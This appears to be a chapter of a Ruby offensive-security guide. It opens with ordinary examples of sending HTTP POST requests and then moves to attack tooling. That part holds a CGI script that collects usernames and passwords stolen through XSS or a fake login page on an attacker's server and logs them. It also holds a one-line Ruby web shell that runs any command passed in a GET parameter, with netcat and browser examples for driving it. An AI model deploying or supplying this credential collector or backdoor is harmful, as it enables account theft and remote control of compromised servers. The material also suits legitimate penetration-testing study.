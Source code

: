 # Chapter 0x4 | Web KungFu

## Send HTTP Post request with custom headers
Here the post body from a file
```ruby
require 'net/http'
require 'uri'


uri = URI.parse "http://example.com/Pages/PostPage.aspx"
headers =
{
   'Referer' => 'http://example.com/Pages/SomePage.aspx',
   'Cookie' => 'TS9e4B=ae79efe; WSS_FullScrende=false; ASP.NET_SessionId=rxuvh3l5dam',
   'Connection' => 'keep-alive',
   'Content-Type' =>'application/x-www-form-urlencoded'
 }
post = File.read post_file   # Raw Post Body's Data
http    = Net::HTTP.new(uri.host, uri.port)
request = Net::HTTP::Post.new(uri.path, headers)
request.body = post
response = http.request request
puts response.code
puts response.body
```

## More control on Post variables
Let's to take the follwoing form as a simple post form to mimic in our script

| ![PostForm](../images/module04/webfu__post_form1.png) |
|:---------------:|
| **Figure 1.** Simple Post form |

Post form code:

```html
<FORM METHOD=POST ACTION="http://wwwx.cs.unc.edu/~jbs/aw-wwwp/docs/resources/perl/perl-cgi/programs/cgi_stdin.cgi">

    <P>Name field: <INPUT TYPE="text" Name="name" SIZE=30 VALUE = "You name">
    <P>Name field: <TEXTAREA TYPE="textarea" ROWS=5 COLS=30 Name="textarea">Your comment.</TEXTAREA>

    <P>Your age: <INPUT TYPE="radio" NAME="radiobutton" VALUE="youngun" CHECKED> younger than 21,
    <INPUT TYPE="radio" NAME="radiobutton" VALUE="middleun"> 21 -59,
    <INPUT TYPE="radio" NAME="radiobutton" VALUE="oldun"> 60 or older

    <P>Things you like: <INPUT TYPE="checkbox" NAME="checkedbox" VALUE="pizza" >pizza,
    <INPUT TYPE="checkbox" NAME="checkedbox" VALUE="hamburgers">hamburgers,
    <INPUT TYPE="checkbox" NAME="checkedbox" VALUE="spinich" CHECKED>spinich,
    <INPUT TYPE="checkbox" NAME="checkedbox" VALUE="mashed potatoes">mashed potatoes

    <P>What you like most:
    <SELECT NAME="selectitem">
        <OPTION>pizza<OPTION>hamburgers<OPTION SELECTED>spinich<OPTION>mashed potatoes<OPTION>other
    </SELECT>

    <P>Reset: <INPUT TYPE="reset" >

    <P>Submit: <INPUT TYPE="submit" NAME="submitbutton" VALUE="Do it!" ACTION="SEND">
</FORM>

```

We need to send a Post request as the form figure 1 would do with contol on each value and variable.
```ruby
require "net/http"
require "uri"

# Parsing the URL and instantiate http
uri = URI.parse("http://wwwx.cs.unc.edu/~jbs/aw-wwwp/docs/resources/perl/perl-cgi/programs/cgi_stdin.cgi")
http = Net::HTTP.new(uri.host, uri.port)

# Instantiate HTTP Post request
request = Net::HTTP::Post.new(uri.request_uri)

# Headers
request["Accept"] = "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8"
request["User-Agent"] = "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:37.0) Gecko/20100101 Firefox/37.0"
request["Referer"] = "http://www.cs.unc.edu/~jbs/resources/perl/perl-cgi/programs/form1-POST.html"
request["Connection"] = "keep-alive"
request["Accept-Language"] = "en-US,en;q=0.5"
request["Accept-Encoding"] = "gzip, deflate"
request["Content-Type"] = "application/x-www-form-urlencoded"

# Post body
request.set_form_data({
                          "name"         => "My title is here",
                          "textarea"     => "My grate message here.",
                          "radiobutton"  => "middleun",
                          "checkedbox"   => "pizza",
                          "checkedbox"   => "hamburgers",
                          "checkedbox"   => "mashed potatoes",
                          "selectitem"   => "hamburgers",
                          "submitbutton" => "Do it!"
                      })

# Receive the response
response = http.request(request)

puts "Status code: " + response.code
puts "Response body: " + response.body

```



## CGI
### Get info - from XSS/HTMLi exploitation
When you exploit XSS or HTML injection you may need to receive the grapped data from exploited user to your external server. Here a simple example of CGI script take sent get request from fake login from that asks users to enter login with username and password then will store the data to `hacked_login.txt` text file and fix its permissions to assure that nobody can access that file from public.

Add the following to `/etc/apache2/sites-enabled/[SITE]` then restart the service
```
<Directory /var/www/[CGI FOLDER]>
        AddHandler cgi-script .rb
        Options +ExecCGI
</Directory>
```
Now, put the script in /var/www/[CGI FOLDER]. You can use it now.
```ruby
#!/usr/bin/ruby
# CGI script gets user/pass | http://attacker/info.rb?user=USER&pass=PASS
require 'cgi'
require 'uri'

cgi  = CGI.new
cgi.header  # content type 'text/html'
user = URI.encode cgi['user']
pass = URI.encode cgi['pass']
time = Time.now.strftime("%D %T")

file = 'hacked_login.txt'
File.open(file, "a") do |f|
  f.puts time   # Time of receiving the get request
  f.puts "#{URI.decode user}:#{URI.decode pass}"    # The data
  f.puts cgi.remote_addr    # Remote user IP
  f.puts cgi.referer    # The vulnerable site url
  f.puts "---------------------------"
end
File.chmod(0200, file)  # To prevent public access to the log file

puts ""
```

### Web Shell - command execution via GET

if you have a server that supports ruby CGI, you can use the follwoing as backdoor
```ruby
#!/usr/bin/env ruby
require 'cgi'
cgi = CGI.new
puts cgi.header
system(cgi['cmd'])
```
Now you can simply use browser, netcat or WebShellConsole[^1] to execute your commands.
ex.
**Brwoser**
```
http://host/cgi/shell.rb?cmd=ls -la
```
**Netcat**
```
echo "GET /cgi/shell.rb?cmd=ls%20-la" | nc host 80
```
**WebShellConsole**

run wsc
```
ruby wsc.rb
```
Add Shell url
```
Shell -> set http://host/cgi/shell.rb?cmd=
```
Now prompt your commands
```
Shell -> ls -la
```

<br><br><br>
---
[^1]: [WebShellConsole](https://github.com/KINGSABRI/WebShellConsole) is simple interactive console, interacts with simple web shells using HTTP GET rather than using browser. wsc will work with any shell use GET method. It takes care of all url encoding too.


















